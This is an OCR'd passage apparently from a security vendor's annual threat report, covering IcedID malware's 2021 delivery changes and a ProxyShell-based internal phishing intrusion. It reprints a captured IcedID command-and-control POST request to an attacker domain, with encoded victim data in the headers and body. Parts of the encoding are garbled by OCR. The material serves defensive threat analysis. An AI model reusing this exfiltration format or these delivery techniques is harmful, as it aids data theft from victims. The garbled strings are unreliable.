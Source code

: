 functionality to include Base64\-encoded information about the victim 
system in the HTTP Cookie and Authorization header (figure 11\).
Distribution for IcedID also changed during 2021, to distribute ISO files 
containing Windows shortcut (LNK) files that execute a colocated 
DLL file containing the IcedID payload. In a March 2022 intrusion, an 
attacker compromised an internet\-facing Microsoft Exchange Server 
via the ProxyShell vulnerability and used access to the compromised 
server to send internal phishing emails containing hijacked email 
threads and an attached IcedID payload. This technique of using 
compromised email servers to send internal phishing emails is likely 
an effort to ensure that emails appear to come from a trusted sender, 
bypassing security controls that warn users by tagging emails that 
originate externally. 
Figure 11\. IcedID HTTP POST request with encoded victim information. (Source: Secureworks)
POST news12550 HTTP1\.1
Host: coolbearblunts.com
Connection: Keep\-Alive
Content\-Type: applicationoctet\-stream
Cookie: session\=MDowOjA6MjIxMzQ6MA\=\=
Authorization: Basic MzU2MDE4MjYwMDOxMDg2NDczMzAyOjEwNzo2Njoy
Content\-Length: 416
JjE0NDQ1MTcwPUE0QkI2RENENEExMyYyMDg0NzgwOT01NDQ1MDA1NDU1MDA1NTM1MDA1NEI1MDA1NTQ1MDA1 
NEY1MDAINTAIMDA]MkQIMDAINTIIMDA]MzMIMDAINTUIMDAIMZEIMDA]MzkIMDAIMzMIMDAmMzMONTk5NTg9 
JTU3JTAwJTRGJTAwJTUyJTAwJTRCJTAwJTQ3JTAwJTUyJTAwJTRGJTAwJTU1JTAwJTUwJTAwJjUzOTU4OTQ5 
PTMmMTg2NzkwOTM9MCY1NTA5MDkyNz@xMC4wLjE5MDQLjAuNjQuMS400CYONDMANTY10D01NKE1MDAINjM1 
MDAINzIlMDAINjUlMDAINkUlMDAINzMIMDAINjgIMDAINjEIMDAINzcIMDAmNTE@MTgyMTA9ODE5Mg\=\=
21
2022 State of the Threat: A Year in Review
06
07
08
01
Letter From Our CTIO
Executive Summary 
and Key Findings
Ransomware Remains the 
Primary Strategic Threat
Ransomware Enablers: 
Loaders and Infostealers
Exploitation of Remote 
Services is Now the Most 
Common Access Vector
Hostile Government\-
Sponsored Actor Activity 
Shows a Regional Focus
Defense Evasion Offers Its 
Own Detection Opportunities
Conclusion
The Secureworks
View of the Threat
02
03
04
05
06
07
08
09
Figure 12\. Taegis XDR detection for IcedID malware. (Source: Secureworks)
22
2022 State of the Threat: A Year in Review
06
07
08